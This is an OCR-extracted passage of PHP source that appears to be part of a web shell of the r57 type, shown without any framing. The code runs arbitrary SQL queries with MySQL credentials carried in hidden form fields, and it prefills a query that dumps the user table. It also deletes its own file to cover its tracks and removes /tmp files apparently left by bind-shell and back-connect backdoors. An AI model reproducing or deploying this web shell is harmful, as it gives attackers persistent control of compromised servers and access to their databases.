        	$keys = @implode("&nbsp;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&nbsp;", $sql-&gt;columns);
        echo "&lt;tr&gt;&lt;td bgcolor=#396D95&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;&nbsp;".$keys."&nbsp;&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;";
        for($i=0;$i&lt;$sql-&gt;num_rows;$i++)
         {
         foreach($sql-&gt;rows[$i] as $k=&gt;$v) $sql-&gt;rows[$i][$k] = htmlspecialchars($v,ENT_QUOTES);
         $values = @implode("&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&nbsp;",$sql-&gt;rows[$i]);
         echo '&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;&nbsp;'.$values.'&nbsp;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
         }
        echo "&lt;/table&gt;";
        }
       break;
       case '2':
       $ar = $sql-&gt;affected_rows()?($sql-&gt;affected_rows()):('0');
       echo "&lt;table width=100%&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;affected rows : &lt;b&gt;".$ar."&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;";
       break;
       }
      }
     }
    }
   }
 echo "&lt;br&gt;&lt;form name=form method=POST&gt;";
 echo in('hidden','db',0,$_POST['db']);
 echo in('hidden','db_server',0,$_POST['db_server']);
 echo in('hidden','db_port',0,$_POST['db_port']);
 echo in('hidden','mysql_l',0,$_POST['mysql_l']);
 echo in('hidden','mysql_p',0,$_POST['mysql_p']);
 echo in('hidden','mysql_db',0,$_POST['mysql_db']);
 echo in('hidden','cmd',0,'db_query');
 echo "&lt;div align=center&gt;&lt;textarea cols=65 rows=10 name=db_query&gt;".(!empty($_POST['db_query'])?($_POST['db_query']):("SHOW DATABASES;\nSELECT * FROM user;"))."&lt;/textarea&gt;&lt;br&gt;&lt;input type=submit name=submit value=\" Run SQL query \"&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;";
 echo "&lt;/form&gt;";
 echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die();
 }
if(isset($_GET['delete']))
 {
   @unlink(@substr(@strrchr($_SERVER['PHP_SELF'],"/"),1));
 }
if(isset($_GET['tmp']))
 {
   @unlink("/tmp/bdpl");
   @unlink("/tmp/back");
   @unlink("/tmp/bd");
   @unlink("/tmp/bd.c");
   @unlink("/tmp/dp");
   @unlink("/tmp/dpc");
   @unlink("/tmp/dpc.c");
 }
if(isset($_GET['phpini']))
{
echo $head;
function U_value($value)
 {
 if ($value == '') return '&lt;i&gt;no value&lt;/i&gt;';
 if (@is_bool($value)) return $value ? 'TRUE' : 'FALSE';
 if ($value === null) return 'NULL';
 if (@is_object($value)) $value = (array) $value;
 if (@is_array($value))